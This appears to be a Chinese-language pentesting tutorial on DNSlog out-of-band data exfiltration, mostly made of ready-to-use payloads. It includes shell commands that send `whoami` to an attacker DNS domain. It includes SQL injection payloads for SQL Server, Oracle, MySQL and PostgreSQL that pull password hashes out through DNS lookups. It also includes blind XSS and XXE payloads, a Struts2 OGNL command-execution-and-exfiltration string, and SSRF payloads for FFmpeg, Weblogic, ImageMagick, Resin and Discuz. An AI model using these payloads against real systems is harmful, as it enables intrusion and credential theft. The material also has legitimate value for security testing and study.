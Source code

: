 在渗透环境时，我们经常会遇到疑似命令执行还有些bool注入和延时注入，但是都没有回显。

命令执行我们可能会用各种各样的请求来判断是否存在命令执行，对于bool注入和延时注入这两种注入类型的缺点就是速度慢，效率低，一个是基于对错判断数据，一个是基于访问时间来判断数据，dnslog的出现就正好弥补了这样的缺陷。

## 0x00 原理

```
    **首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样一来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下。**
```

![](/assets/dnslog1.png)

DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

## 0x01 利用

首先给大家分享[一个免费的dnslog平](http://ceye.io/)台\(ps:要是有cloudeye激活码的可以忽略\)。

平台会给每一个会员分一个二级域名`xxx.ceye.io`。

简单的来说，dnslog平台自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过

```
ping test.xxxxx.ceye.io
```

这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息。

### 0x01.1 命令执行

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断:

     linux:
     curl http://ip.port.domain.ceye.io/`whoami`
     ping `whoami`.ip.port.domain.ceye.io
     ping %USERNAME%.domain.ceye.io

这时候就可以去dnslog瓶体查看到信息![](/assets/dnslog4.png)![](/assets/dnslog2.png)![](/assets/dnslog3.png)

### 0x01.2 SQL注入

#### **SQL Server**

存储程序用于获取所有文件夹的列表和给定文件夹内部的子文件夹。

```
DECLARE @host varchar(1024);
注册一个名为@host的变量，类型为varchar。
SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';
获取db_name()然后转换成varchar类型，然后吧获取的db_name()返回值拼接到dnslog平台给我们的子域名里面，然后赋值给@host变量。
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
列远程主机的foobar$目录,由于是远程主机，所以会做一个dns解析，这样我们的dns平台就能得到日志了
http://xxxx.com.cn/?Id=123';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');--
```

#### **Oracle**

UTL-INADDR包用于互联网的寻址–诸如检索本地和远程主机的主机名和IP的地址:

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

#### **MySQL**

MySQL的函数LOAD\_FILE\(\)读取文件内容并将其作为字符串返回：LOAD\_FILE\(\):

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));
```

#### **PostgreSQL**

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据:

```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

![](/assets/dnslog5.png)![](/assets/dnslog6.png)

### **0x01.3 XSS（无回显）**

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:&gt;&lt;img src=[http://xss.xxxx.ceye.io/aaa&gt;让src请求我们的dnslog平台](http://xss.xxxx.ceye.io/aaa>让src请求我们的dnslog平台)

### 0x01.4 ssrf\(无回显\)

payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x01.5 Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

### 0x01.6 FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

### 0x01.7 Weblogic

```
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

### 0x01.8 ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

### 0x01.9 Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

### 0x01.10 Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```



